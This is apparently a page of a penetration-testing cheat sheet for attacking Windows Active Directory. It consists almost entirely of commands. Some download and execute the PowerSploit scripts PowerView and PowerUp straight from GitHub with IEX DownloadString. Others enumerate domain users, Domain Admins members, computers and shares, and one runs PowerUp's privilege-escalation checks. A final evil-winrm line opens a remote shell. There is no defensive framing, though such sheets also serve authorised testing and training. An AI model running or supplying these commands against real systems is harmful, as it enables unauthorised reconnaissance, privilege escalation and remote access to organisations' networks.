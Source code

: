 ## Download PowerView for AD enumeration
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```

## Get domain information with PowerView
```powershell
Get-Domain
Get-DomainController
Get-DomainPolicy
```

## Enumerate domain users with PowerView
```powershell
Get-DomainUser
Get-DomainUser -Identity administrator
Get-DomainUser | Select-Object samaccountname,description
```

## Enumerate domain groups with PowerView
```powershell
Get-DomainGroup
Get-DomainGroup -Identity "Domain Admins"
Get-DomainGroupMember -Identity "Domain Admins"
```

## Enumerate domain computers with PowerView
```powershell
Get-DomainComputer
Get-DomainComputer | Select-Object name,operatingsystem
```

## Find domain shares with PowerView
```powershell
Find-DomainShare
Find-DomainShare -CheckShareAccess
```

## Download PowerUp for privilege escalation
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

## Test WinRM access
```bash
# evil-winrm for shell OR netexec for quick validation
evil-winrm -i $IP -u username -p password
```
